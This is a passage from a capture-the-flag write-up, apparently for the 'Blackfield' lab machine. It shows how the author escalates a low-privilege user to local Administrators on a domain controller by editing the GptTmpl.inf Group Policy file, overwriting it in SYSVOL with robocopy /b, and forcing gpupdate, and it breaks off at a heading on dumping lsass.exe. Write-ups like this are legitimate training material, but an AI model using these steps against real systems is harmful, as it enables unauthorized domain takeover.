 ```
[Version]
signature="$CHICAGO$"
Revision=1
```

I wanted to change this file so the user svc_backup becomes a member of the administrators group. The whoami /all command gave me the information that the user svc_backup’s SID is:

```
S-1-5-21-4194615774-2175524697-3563712290-1413
```

I copied the content of the GptTmpl.inf file to a text editor on my local machine and added the following content in the end:


```
[Group Membership]
*S-1-5-21-4194615774-2175524697-3563712290-1413__Memberof = *S-1-5-32-544
*S-1-5-21-4194615774-2175524697-3563712290-1413__Members =
```

With this edit I put my self into the administrators group (S-1-5-32-544). I saved the file on my Kali system and uploaded it to thedomain controller with Evil-WinRM. I replaced the file in the secedit folder with the one that I uploaded.

```
robocopy.exe "C:\users\svc_backup\documents\" "C:\Windows\SYSVOL\domain\policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\machine\microsoft\windows nt\secedit" GptTmpl.inf /b
```

I now wanted to force update the group policy myself instead of waiting for it to happen.

```
Gpupdate /force
```

Then I ran the localgroup command again.

```
Net localgroup administrators
```

![](Pictures/Blackfield/netlocal2.png)

Now the user svc_backup is a member of the administrators group.


### [](#header-3)Dumping lsass.exe
